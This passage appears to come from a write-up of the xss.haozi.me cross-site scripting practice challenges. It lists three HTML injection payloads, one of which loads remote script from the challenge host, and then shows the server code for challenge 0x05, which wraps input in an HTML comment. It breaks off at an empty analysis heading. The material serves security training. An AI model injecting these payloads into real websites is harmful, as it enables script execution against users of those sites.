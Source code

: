 ## html:

```
1. <svg><script>alert&#x28;1&#x29;</script></svg>
2. <script src=https://xss.haozi.me/j.js></script>
3. <img src='' onerror="alert&#x28;&#x31;&#x29;">
```



![004](/img/xss/haozi/004.png)

# 0x05

## server code:

```
function render (input) {
  input = input.replace(/-->/g, '😂')
  return '<!-- ' + input + ' -->'
}
```

## 分析:
